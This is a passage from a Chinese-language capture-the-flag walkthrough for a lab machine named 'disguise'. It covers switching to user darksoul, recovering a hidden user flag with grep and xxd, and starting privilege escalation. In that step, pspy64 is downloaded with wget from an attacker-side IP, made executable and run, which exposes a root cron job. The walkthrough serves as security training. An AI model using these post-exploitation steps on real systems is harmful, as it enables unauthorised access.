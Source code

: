 ```bash
www-data@disguise:/tmp$ su darksoul
Password: 
darksoul@disguise:/tmp$ id
uid=1000(darksoul) gid=1000(darksoul) groups=1000(darksoul)
```

成功切换到 `darksoul`。查看 `user.txt`。

```bash
darksoul@disguise:~$ ls -la
total 40
drwxr-xr-x 4 darksoul darksoul 4096 Apr  2 04:19 .
drwxr-xr-x 3 root     root     4096 Mar 31 11:19 ..
lrwxrwxrwx 1 root     root        9 Apr  2 00:16 .bash_history -> /dev/null
-rw-r--r-- 1 darksoul darksoul  220 Mar 31 11:19 .bash_logout
-rw-r--r-- 1 darksoul darksoul 3526 Mar 31 11:19 .bashrc
-rw-r--r-- 1 root     root      114 Apr  2 04:03 config.ini
-rw-r--r-- 1 root     root       32 May 16 06:44 darkshopcount
drwx------ 3 darksoul darksoul 4096 Apr  1 10:03 .gnupg
drwxr-xr-x 3 darksoul darksoul 4096 Apr  1 10:04 .local
-rw-r--r-- 1 darksoul darksoul  807 Mar 31 11:19 .profile
-rw------- 1 darksoul darksoul   68 Apr  2 04:22 user.txt
darksoul@disguise:~$ cat user.txt 
Good good study & Day day up,but where is the flag?
darksoul@disguise:~$ grep -r -i 'HMV{' / 2>/dev/null
/home/darksoul/user.txt:hmv{hiddenflag}
^C
```

这里有个flag `hmv{hiddenflag}`。
用`xxd`也能看到。

```bash
darksoul@disguise:~$ xxd user.txt 
00000000: 476f 6f64 2067 6f6f 6420 7374 7564 7920  Good good study 
00000010: 2620 4461 7920 6461 7920 7570 2c62 7574  & Day day up,but
00000020: 2077 6865 7265 2069 7320 7468 6520 666c   where is the fl
00000030: 6167 3f0a 686d 767b 6869 6464 656e 666c  ag?.hmv{hiddenfl
00000040: 6167 7d0d                                ag}.
```

获取第一个flag: `hmv{hiddenflag}`。

#### 7.4 darksoul -> root 提权

使用`pspy64`监控进程。

```bash
darksoul@disguise:/tmp$ wget 192.168.205.206/pspy64
darksoul@disguise:/tmp$ chmod +x pspy64 
darksoul@disguise:/tmp$ ./pspy64 
# ... (pspy64 输出) ...
2025/05/16 06:51:01 CMD: UID=0     PID=16089  | /bin/sh -c /usr/bin/python3 /opt/query.py /home/darksoul/config.ini > /home/darksoul/darkshopcount 
2025/05/16 06:51:02 CMD: UID=0     PID=16090  | /usr/bin/python3 /opt/query.py /home/darksoul/config.ini 
# ... (pspy64 输出) ...
```
